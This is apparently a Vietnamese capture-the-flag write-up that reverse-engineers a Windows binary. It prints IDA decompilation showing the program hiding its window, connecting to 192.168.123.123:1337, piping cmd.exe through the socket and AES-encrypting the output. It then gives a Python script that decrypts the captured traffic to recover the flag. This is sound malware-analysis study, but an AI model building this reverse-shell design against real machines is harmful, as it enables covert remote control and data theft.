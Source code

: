 # SECRET 
- Khi mở file binary bằng IDA và phân tích hàm `main`:
```C 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  HWND ConsoleWindow; // eax
  SOCKET v4; // eax
  struct WSAData WSAData; // [esp+10h] [ebp-198h] BYREF

  ConsoleWindow = GetConsoleWindow();
  ShowWindow(ConsoleWindow, 0);
  hMutex = CreateMutexW(0, 0, L"9_5_diem");
  if ( !hMutex || WSAStartup(0x202u, &WSAData) )
    return 1;
  *(_DWORD *)&name.sa_family = 0;
  *(_DWORD *)&name.sa_data[2] = 0;
  *(_DWORD *)&name.sa_data[6] = 0;
  *(_DWORD *)&name.sa_data[10] = 0;
  name.sa_family = 2;
  *(_WORD *)name.sa_data = htons(1337u);
  *(_DWORD *)&name.sa_data[2] = inet_addr("192.168.123.123");
  v4 = socket(2, 1, 6);
  s = v4;
  if ( v4 == -1 )
  {
LABEL_4:
    WSACleanup();
    return 1;
  }
  if ( connect(v4, &name, 16) == -1 )
  {
    closesocket(s);
    goto LABEL_4;
  }
  sub_8E1983();
  ReleaseMutex(hMutex);
  return 0;
}
```
- Trước tiên chương trình tạo `MUTEX OBJECT` nên chúng ta có thể suy đoán rằng bài sẽ có chỗ sử dụng `shared resource` giữa các thread (tức là sẽ có thêm những thread mới được tạo ra)
- Tiếp đến chúng ta có thể thấy rằng chương trình đã kết nối socket đến địa chỉ `192.168.123.123` và  `PORT 1337` : 
```C 
  ..........
  *(_WORD *)name.sa_data = htons(1337u);
  *(_DWORD *)&name.sa_data[2] = inet_addr("192.168.123.123");
  ............
```
- Như vậy đã có kết nối socket thì chắc chắn sẽ có data chứa flag được truyền đi nên chúng ta sẽ tiếp tục trace vào hàm `sub_8E1983` để xem tác giả đã sử dụng socket để gửi đi những gì :
```C
char sub_8E1983()
{
  struct _STARTUPINFOW StartupInfo; // [esp+10h] [ebp-78h] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [esp+58h] [ebp-30h] BYREF
  struct _SECURITY_ATTRIBUTES PipeAttributes; // [esp+68h] [ebp-20h] BYREF
  int CommandLine[4]; // [esp+74h] [ebp-14h] BYREF

  PipeAttributes.nLength = 12;
  PipeAttributes.bInheritHandle = 1;
  PipeAttributes.lpSecurityDescriptor = 0;
  if ( !CreatePipe(&hObject, &hWritePipe, &PipeAttributes, 0) )
    return 0;
  if ( !SetHandleInformation(hObject, 1u, 0) )
    return 0;
  if ( !CreatePipe(&hReadPipe, &dword_8F6330, &PipeAttributes, 0) )
    return 0;
  if ( !SetHandleInformation(dword_8F6330, 1u, 0) )
    return 0;
  CommandLine[0] = *(_DWORD *)L"cmd.exe";
  CommandLine[1] = *(_DWORD *)L"d.exe";
  CommandLine[2] = *(_DWORD *)L"exe";
  CommandLine[3] = *(_DWORD *)L"e";
  memset(&ProcessInformation, 0, sizeof(ProcessInformation));
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  StartupInfo.dwFlags |= 0x101u;
  StartupInfo.hStdError = hWritePipe;
  StartupInfo.hStdOutput = hWritePipe;
  StartupInfo.hStdInput = hReadPipe;
  StartupInfo.cb = 68;
  if ( !CreateProcessW(0, (LPWSTR)CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation) )
    return 0;
  CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateThread(0, 0, sub_8E18B3, 0, 0, 0);
  WaitForSingleObject(ProcessInformation.hProcess, 0xFFFFFFFF);
  CloseHandle(ProcessInformation.hProcess);
  CloseHandle(ProcessInformation.hThread);
  return 1;
}
```
- Ở hàm `sub_8E1983` tác giả đã tạo một `pipe` và sau đó tạo một `PROCESS` con để sử dụng `pipe` này (`CreateProcessW`) 
- Process con sẽ chạy commandline bật cmd.exe và chạy d.exe , exe, ....
- Mục tiêu cần trace cuối cùng ở đây là hai hàm `StartAddress` và `sub_8E18B3` :

```C 
  CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateThread(0, 0, sub_8E18B3, 0, 0, 0);
```

## Trước tiên là function `StartAddress`: 
```C
int __stdcall StartAddress()
{
  void *reader; // ebx
  size_t v1; // ebx
  size_t v2; // esi
  int result; // eax
  const void *v4; // [esp-8h] [ebp-78h]
  DWORD *buf; // [esp+10h] [ebp-60h]
  void *i; // [esp+14h] [ebp-5Ch]
  _DWORD v7[10]; // [esp+18h] [ebp-58h] BYREF
  char v8[40]; // [esp+40h] [ebp-30h] BYREF
  DWORD NumberOfBytesRead; // [esp+68h] [ebp-8h] BYREF

  reader = sub_8E1BC5(0xFFFFu);
  for ( i = reader; ; reader = i )
  {
    memset(reader, 0, 0xFFFFu);
    result = ReadFile(hObject, reader, 0xFFFFu, &NumberOfBytesRead, 0);
    if ( !(_BYTE)result || !NumberOfBytesRead )
      break;
    qmemcpy(v7, sub_8E14F5(NumberOfBytesRead, reader, v8), sizeof(v7));
    v1 = v7[8];
    v2 = v7[8] + 37;
    buf = (DWORD *)sub_8E1BC5(v7[8] + 37);
	..............
```
- Có rất nhiều hàm nên mình sẽ chỉ phân tích một số hàm quan trọng .
- Đầu tiên chương trình sẽ đọc `StdOut` của `pipe` vừa tạo lức trước , hiểu đơn giản là màn hình console của process được tạo ra trước đó hiện cái gì thì chương trình sẽ đọc tất : 

```C 
	........
	result = ReadFile(hObject, reader, 0xFFFFu, &NumberOfBytesRead, 0);
    if ( !(_BYTE)result || !NumberOfBytesRead )
      break;
    qmemcpy(v7, sub_8E14F5(NumberOfBytesRead, reader, v8), sizeof(v7));
    v1 = v7[8];
	.......
```
- Sau khi đọc xong, tất cả dữ liệu sẽ được đưa vào hàm `sub_8E14F5` để `encrypt` rồi coppy vào biến `v7`
- Tiếp theo biến buf sẽ nhận được những data cần gửi đi :
```C
	..........
	memset(buf, 0, v2);
    *buf = v7[0];
    buf[8] = v1;
    buf[1] = v7[1];
    v4 = (const void *)v7[9];
    buf[2] = v7[2];
    buf[3] = v7[3];
    buf[4] = v7[4];
    buf[5] = v7[5];
    buf[6] = v7[6];
    buf[7] = v7[7];
    memmove(buf + 9, v4, v1);
    if ( send(s, (const char *)buf, v1 + 36, 0) == -1 )
      return closesocket(s);
    j_j__free(buf);
    Sleep(0xAu);
  }
  return result;
}

```
### Phân tích hàm Encrypt `sub_8E14F5`: 

- Đầu vào của hàm `sub_8E14F5`  là `NumberOfBytesRead` ,`reader`, `v8`
   + `NumberOfBytesRead` : số byte
   + `reader` : số byte đã đọc được
   + `v8` : mảng rỗng 
```C
_DWORD *__usercall sub_8E14F5@<eax>(signed int number_of_byte@<edx>, const void *buf@<ecx>, _DWORD *space)
{
   .......
  i = 0;
  Time = getTime(0);
  srand(Time);
  do
  {
    *((_BYTE *)space + i + 16) = rand();
    *((_BYTE *)space + i++) = rand();
  }
  while ( i < 16 );
```
- Đoạn đầu của hàm sử dụng hàm `random` để tạo ra 32 byte đầu bất kì , sau khi trace vào các hàm bên dưới thì mình thấy có một vùng data chương trình sử dụng để trộn với `reader` và `36 byte đầu` kia và những byte đó hoàn toàn giống với `Rijndael S-box` ([S-box](https://en.wikipedia.org/wiki/Rijndael_S-box))
- Nên mình kết luận luôn đây là hàm Encrypt sử dụng `AES` với `Key` và `IV` sẽ là 36 byte random kia.
## Decrypt Data
- Đề bài còn cho chúng ta một file `pcap` để xem những data đã gửi đi nên chúng ta sẽ lấy chúng ra để decrypt 
- Key và IV sẽ là 36 byte đầu 
- Do lúc socket gửi đi , nó có gửi cả `KEY` và `IV` nên chúng ta có thể lấy được nó thông qua file `pcap`
- script mình hack được từ anh tác giả : 
```python 
from scapy.all import *
from Crypto.Cipher import AES 
from Crypto.Util.Padding import * 

pp = PcapNgReader("capture.pcapng")

for p in pp:
    if TCP in p and (p[TCP].dport == 1337 or p[TCP].sport == 1337):
        payload = raw(p[TCP].payload)
        if len(payload) < 36:
            continue
        key = payload[:16]
        iv = payload[16:32]
        size = int.from_bytes(payload[32:36], byteorder='little')
        cipher = AES.new(key, AES.MODE_CBC, iv)
        data = payload[36:36+size]
        data = cipher.decrypt(data)
        try:
            data = unpad(data,16)
        except:
            pass
        print(data.decode())
        # break
```

- FLAG : `KCSC{d0'N7_g1v3_y0u_up}`
